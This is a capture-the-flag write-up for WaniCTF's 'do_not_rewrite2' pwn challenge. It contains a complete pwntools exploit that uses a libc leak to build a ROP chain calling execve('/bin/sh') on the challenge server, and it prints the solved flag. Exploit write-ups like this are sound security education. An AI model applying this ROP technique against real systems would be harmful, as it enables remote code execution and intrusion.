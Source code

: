 https://ctftime.org/event/2377

# do_not_rewrite2 (pwn)

便利な関数が消えてしまいましたね...
ropをしてみましょう

show_flag() has disappeared :<
Let's try ROP

nc chal-lz56g6.wanictf.org 9005

## Analysis

This is essentially the same task as `do_not_rewrite` with 2 major changes:
1) The function which prints the flag for us has gone
2) We are given a libc leak instead of a leak from the main image

With these changes in mind it becomes clear that we should write a rop chain to return address that we control on the stack.

We are provided with the following libc.so.6:

`fc4c52f3910ed57a088d19ab86c671358f5e917cd4e95b21fd08e4fd922c0aa`

## Solution

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chall", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

p = remote("chal-lz56g6.wanictf.org", 9005)

p.readuntil(b"hint: printf = ")
leak = int(p.readline().decode(), 16)
libc.address = leak - libc.sym["printf"]
log.info(f"libc: 0x{libc.address:x}")

for i in range(3):
    p.sendlineafter(b": ", b"A")
    p.sendlineafter(b": ", b"1.1")
    p.sendlineafter(b": ", b"1.1")

rop = ROP(libc)
rop.rsi = 0
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.rax = constants.SYS_execve
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])

p.sendlineafter(b": ", rop.chain())
p.sendlineafter(b": ", b"abc")
p.sendlineafter(b": ", b"efg")

p.interactive()

```

## Flag
`FLAG{r0p_br0d3n_0ur_w0r1d}`

smiley 2024/06/22
